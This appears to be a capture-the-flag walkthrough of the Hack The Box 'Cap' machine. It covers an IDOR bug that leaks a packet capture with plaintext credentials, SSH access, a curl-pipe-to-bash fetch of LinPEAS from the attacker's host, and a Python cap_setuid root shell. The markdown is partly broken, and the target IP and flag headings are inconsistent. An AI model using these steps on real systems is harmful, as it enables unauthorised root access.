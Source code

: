 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```
**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](https://github.com/user-attachments/assets/a4522c59-b984-4c5a-b034-f333a8cd5287)
![Network Info on Web Dashboard](https://github.com/user-attachments/assets/b1433e2a-5252-43a3-9249-601240604ef2)
![Security Snap Shot User 1](https://github.com/user-attachments/assets/bdd14d07-a31e-48ef-a82b-4012c122dab8)

The usrl ends in a 1, there are two options both work. first you can just change the number to 0-2 etc and see what works. in this case changing the number to 0 will allow you to download a PCAP file which has infomration. Another method is to use `FFUF` and identify other account which might be accesed. below is the screen shot for what I used. 
![FFuF](https://github.com/user-attachments/assets/4943d366-defe-4745-91b8-12b9adea043a)


```

#### **02-Foothold.md**
```markdown
# Foothold

## Wireshark
```
Download the PCAP file for user 0 and run the following command
![Wireshark PCAP](https://github.com/user-attachments/assets/2ee7f46d-ebd7-44c5-a599-cedbdeed30c6)

```
## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`
```
![Wireshark filter](https://github.com/user-attachments/assets/cf2555b2-771d-48b5-8d51-d2e62ce6b836)

```
## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```


![ssh into nathan](https://github.com/user-attachments/assets/f897c07c-2217-4e2a-9558-95308262a22e)

You now have a foothold on the system.

if you run ls you will see at .txt file with user Flag
![user flag](https://github.com/user-attachments/assets/5b98e2a8-df1b-4b5f-a96c-0ac05d8fcd48)

```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```
left side is attacking computer and right is victim
![linpeas](https://github.com/user-attachments/assets/f33dae68-952f-4621-9b43-cc77e5cab4c2)


The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

![linpeas vuln](https://github.com/user-attachments/assets/a109be53-21f6-4fca-9dac-2e5091131851)

A quick google search of this vuln will reval how to exploit

![Exploit](https://github.com/user-attachments/assets/886247b0-47a5-4014-91ea-e5c2fb968ed4)

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
![root](https://github.com/user-attachments/assets/83d9291e-f265-47cf-a9c3-7e7345fb917d)

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![root flag](https://github.com/user-attachments/assets/82cdae30-e33a-45dd-b1c9-dce7ee3a4094)

```

---


